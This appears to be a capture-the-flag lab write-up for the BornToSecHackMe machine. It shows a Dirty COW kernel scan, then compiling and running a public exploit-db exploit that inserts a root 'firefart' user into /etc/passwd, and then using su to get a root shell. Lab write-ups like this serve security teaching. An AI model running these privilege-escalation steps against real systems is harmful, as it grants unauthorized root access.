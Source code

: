 # Write Up 2

For the next `exploit` we want to find `vulnerabilties` about the `kernel` verion, `CVE`

We will use a `DirtyScript` but for first lets check if our machien is exploitable:

We use this script:

>https://github.com/aishee/scan-dirtycow/blob/master/dirtycowscan.sh

And here the output:

```
firefart@BornToSecHackMe:/var/crash# ./DirtyScan.sh 
Your kernel is 3.2.0-91-generic-pae which IS vulnerable.
It is recommends that you update your kernel. Alternatively, you can apply partial
mitigation described at https://access.redhat.com/security/vulnerabilities/2706661 .
The kernel available to update to is 3.2.0-91-generic IS also vulnerable.
```

So know we have to use this script:

>https://www.exploit-db.com/exploits/40839

```
zaz@BornToSecHackMe:/var/crash$ gcc dirty.c -pthread -lcrypt -o dirty
zaz@BornToSecHackMe:/var/crash$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fiRbwOlRgkx7g:0:0:pwned:/root:/bin/bash
```

In the `/etc/passwd` file we can see a `new user`:

```
zaz@BornToSecHackMe:/var/crash$ cat /etc/passwd
firefart:fiRbwOlRgkx7g:0:0:pwned:/root:/bin/bash
```

So try to connect with:

>login: `firefart` password: `123` (this is the password entered with the previous script)

```
zaz@BornToSecHackMe:/var/crash$ su firefart
Password: 
firefart@BornToSecHackMe:/var/crash# id
uid=0(firefart) gid=0(root) groups=0(root)
```

And GOOD JOB! We are root.
